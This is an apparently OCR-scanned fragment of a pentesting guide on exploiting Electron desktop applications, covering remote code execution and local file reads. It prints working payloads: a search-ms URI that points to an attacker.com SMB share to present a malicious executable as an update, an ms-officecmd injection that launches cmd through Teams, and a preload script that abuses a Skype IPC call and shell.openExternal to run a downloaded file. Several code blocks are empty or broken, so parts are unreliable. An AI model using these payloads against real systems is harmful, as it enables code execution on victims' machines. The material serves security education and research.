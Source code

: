 ```
    "search-ms:query=malicious_executable.exe&crumb=location:%5C%5Cattacker.com%5Csmb_share%5Ctools&displayname=Important%20update"
  )
</script>

<script>
  window.open(
    "ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D"
  )
</script>
```
```
## RCE: webviewTag + vulnerable preload IPC + shell.openExternal

This vuln can be found in **[[https://flatt.tech/research/posts/escaping-electron-isolation-with-obsolete-feature/|this report]]**.

The **webviewTag** is a **deprecated feature** that allows the use of **NodeJS** in the **renderer process**, which should be disabled as it allows to load a script inside the preload context like:

```xml

```
```
Therefore, an attacker that manages to load an arbitrary page could use that tag to **load an arbitrary preload script**.

This preload script was abused then to call a **vulnerable IPC service (`skype-new-window`)** which was calling calling **`shell.openExternal`** to get RCE:

```javascript
(async() => {
    const { ipcRenderer } = require("electron");
    await ipcRenderer.invoke("skype-new-window", "https://example.com/EXECUTABLE_PATH");
    setTimeout(async () => {
        const username = process.execPath.match(/C:\\Users\\([^\\]+)/);
        await ipcRenderer.invoke("skype-new-window", `file:///C:/Users/${username[1]}/Downloads/EXECUTABLE_NAME);
    }, 5000);
})();
```
```
## Reading Internal Files: XSS + contextIsolation

**Disabling `contextIsolation` enables the use of `<webview>` tags**, similar to `<iframe>`, for reading and exfiltrating local files. An example provided demonstrates how to exploit this vulnerability to read the contents of internal files:

![[<../../../images/1 u1jdRYuWAEVwJmf_F2ttJg (1).png>|]]

Further, another method for **reading an internal file** is shared, highlighting a critical local file read vulnerability in an Electron desktop app. This involves injecting a script to exploit the application and exfiltrate data:

```html
  
  
  
  

<h1>
  pwn  
```